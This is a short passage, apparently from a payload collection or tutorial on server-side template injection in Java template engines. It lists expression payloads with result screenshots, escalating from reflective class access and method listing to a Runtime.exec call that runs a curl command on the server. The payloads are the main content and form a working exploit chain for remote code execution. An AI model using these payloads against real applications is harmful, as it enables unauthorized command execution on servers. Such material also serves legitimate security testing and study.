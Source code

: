 ```
```
Result : 

![](./IMG/32.png)
Command : 
```
#Access to arbitrary class
*{"".getClass().forName("java.util.Date")}
```

Result : 
![](./IMG/33.png)

Command : 
```
#List methods of a class
*{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
```

Result : 
![](./IMG/34.png)


Command : 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://www.google.com")}

```
Result : 

![](./IMG/35.png)
